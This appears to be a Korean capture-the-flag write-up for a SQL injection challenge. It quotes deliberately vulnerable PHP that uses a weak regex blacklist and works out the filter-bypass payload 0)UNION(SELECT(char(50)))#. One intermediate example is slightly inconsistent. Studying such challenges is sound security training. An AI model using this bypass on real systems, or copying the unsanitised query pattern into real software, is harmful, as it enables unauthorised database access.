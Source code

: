 # sql injection - 필터링 우회하기

소스코드

```php+HTML
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 7</title>
</head>
<body>
<?php
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
if($rand==1){
  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
}
if($rand==2){
  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
}
if($rand==3){
  $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");
}
if($rand==4){
  $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");
}
if($rand==5){
  $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");
}
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
?>
<a href=./?view_source=1>view-source</a>
</body>
</html>
```

URL쿼리 `?val=..`부분에 payload를 삽입해야한다. 

소스의 끝에 보면 data[0] == 2 일때, 풀린다. 
그전에 2, +, -, from, _, = 과 같은 문자가 필터링 된다. 
1~5까지의 랜덤값에 따라서 쿼리문을 실행하게 된다.
괄호수에 차이가 있는 것은 별 의미가 없다. 여러번 넣어보면 하나는 맞게 되어있다. 

그러니까, 방법은 기존 $go가 들어가는 쿼리문에서 괄호를 닫고, 이어서 쿼리문을 작성하여 lv=2를 $result에 넣는것.

```sql
-- 기존 쿼리
SELECT lv FROM chall7 WHERE lv=($go)

-- "0)UNION(SELECT(2))#" 삽입
SELECT lv FROM chall7 WHERE lv=()UNION(SELECT(2))--)

-- 2가 필터링에 걸린다. SQL에도 아스키 변환 함수가 있다. => char(50)='2'
-- 삽입payload = 0)UNION(SELECT(char(50)))#
SELECT lv FROM chall7 WHERE lv=(0)UNION(SELECT(char(50)))#)
```

 

> SQL인젝션은 언제나 필터링 함수를 우회하는 것이 핵심이다. 
> 그렇기에 같은 SQL구문도 다르게 나타낼 수 있는 SQL의 깊은 지식이 필요하다. 